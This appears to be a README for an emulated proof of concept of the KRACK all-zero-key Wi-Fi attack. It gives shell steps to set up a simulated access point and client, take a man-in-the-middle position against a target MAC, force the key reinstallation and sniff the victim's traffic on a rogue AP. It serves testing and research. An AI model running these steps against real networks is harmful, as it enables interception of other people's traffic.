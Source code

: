 # Proof Of Concept (Emulation with mac80211_hwsim)

## Initialise the Network Emulation

First, make sure that both interfaces `eth0` and `eth1` are available.

```bash
sudo ./init_network.sh eth1
```

```bash
sudo systemctl stop dnsmasq.service # Only if it is running
```

## Create and connect Supplicant and Authenticator
### Start the Access Point

```bash
sudo ip netns exec hostapd ./enable_internet_forwarding.sh eth1 wlan0
sudo ip netns exec hostapd dnsmasq -d -C dnsmasq.conf
```
Open a new Terminal session in this folder and run:

```bash
sudo su
source init_env_sup_ap
ip netns exec hostapd ./hostapd-2.4 hostapd.conf
```

### Start the Supplicant
Open a new Terminal session in this folder and run:
```bash
sudo su
source init_env_sup_ap
ip netns exec supplicant ./wpa_supplicant-2.4 -D nl80211 -i wlan1 -c supplicant.conf
```

Open a new Terminal session in this folder and run:
### Test connection
```bash
sudo ip netns exec hostapd ping krackattacks.com
sudo ip netns exec supplicant dhcpcd -n wlan1
sudo ip netns exec supplicant ping krackattacks.com
```
```bash
sudo ip netns exec supplicant iw dev
```

## Add MitM and perform the Attack
### Initialise Krackattack environment
Open a new Terminal session in `../krackattack-all-zero-tk-key/krackattack` and run:
```bash
sudo su
rfkill unblock wifi
source ../../poc-emulation/init_env_mitm
../../poc-emulation/enable_internet_forwarding.sh eth0 wlan3
pyenv shell 2.7.18
```

### Obtain MitM position and Reinstall Key
On the same session, while root, execute:
```bash
python ./krack_all_zero_tk.py wlan2 wlan3 eth0 "simulnet" -t <victim_mac_addr>
```
### Test connection
In a new window run some tests:
```bash
ping krackattacks.com
sudo ip netns exec supplicant ping krackattacks.com
sudo ip netns exec supplicant iw dev
```
### Sniff the traffic
Open Wireskark and sniff traffic on interface `wlan3` (the Interface of the Rougue AP).

### Check with patched `wpa_supplicant`


## Deinitialise the Network Emulation
```bash
sudo ./clear.sh eth1
```
